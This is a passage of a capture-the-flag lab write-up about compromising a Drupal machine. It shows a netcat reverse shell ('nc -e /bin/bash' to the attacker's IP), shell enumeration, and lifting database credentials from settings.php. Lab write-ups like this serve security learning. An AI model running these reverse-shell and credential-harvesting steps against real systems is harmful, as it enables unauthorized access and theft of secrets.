 Attacker:
```
$ nc -lvp 1234
```

Drupal shell:
```
$ nc -nv 10.10.10.6 1234 -e /bin/bash
```

Now, with a shell we find flag1.txt in the base directory.

```
whoami
www-data
pwd
/var/www
ls | grep flag
flag1.txt
cat flag1.txt
Every good CMS needs a config file - and so do you.
```
Let's check Drupal's config files, but in a lazy/efficient way.

```
grep -rnw . -e 'flag2'
./sites/default/settings.php:5: * flag2
```
Let's check that file.

```
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```
Great, we found some DB credentials, `dbuser:R0ck3t`. Here's how to log into a mysql db:
```
shell> mysql --user=user_name --password db_name
           Enter password: your_password
```
